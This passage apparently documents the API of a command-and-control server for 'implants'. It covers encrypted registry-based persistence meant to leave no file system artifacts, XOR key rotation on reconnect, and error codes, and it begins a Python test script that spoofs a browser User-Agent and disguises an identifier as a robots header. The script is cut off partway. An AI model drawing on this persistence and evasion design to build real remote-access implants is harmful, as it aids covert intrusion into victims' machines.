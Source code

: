 

**Security Considerations**:
- Registry storage provides persistence without file system artifacts
- ID is encrypted in registry but sent decrypted in X-Request-ID header
- XOR key rotation on reconnection enhances security
- Authentication required for reconnection requests
- Prevents unauthorized implants from reconnecting
- Maintains secure communication after system reboots

**Error Handling**:
- Invalid ID returns 404 Not Found
- Authentication failure returns 401 Unauthorized
- Inactive implant returns 410 Gone
- Server errors return 500 Internal Server Error

**Use Cases**:
1. System Reboot:
   - Implant restarts and reads encrypted ID from registry
   - Decrypts ID and requests new XOR key via reconnect
   - Resumes secure communication

2. Process Restart:
   - Implant process terminates and restarts
   - Encrypted registry ID prevents duplicate instances
   - New XOR key obtained for continued operation

---------------------------------------------------------------------------------------------


## Test Script

Below is a Python script to test all endpoints. Save it in `dev_utils/test_implant_api.py`:

```python
import base64
import sys
import os
import json
import requests
import zlib
from pathlib import Path
from typing import Dict, Any, Optional

class ImplantAPITester:
    def __init__(self, base_url: str, workspace_uuid: Optional[str] = None):
        self.base_url = base_url.rstrip('/')
        self.headers = {
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Trident/7.0; rv:11.0) like Gecko',
            'X-Correlation-ID': 'PASIOnodnoqonasond12314',
            'Content-Type': 'application/json'
        }
        if workspace_uuid:
            self.headers['X-Robots-Tag'] = workspace_uuid
            
        self.implant_id = None
        self.unique_xor_key = None
        self.initial_xor_key = None
        
        # Read INITIAL_XOR_KEY from .xorkey file
        try:
            with open('.xorkey', 'r') as f:
                self.initial_xor_key = int(f.read().strip())
        except FileNotFoundError:
            print("Error: .xorkey file not found")
            sys.exit(1)
        except ValueError:
```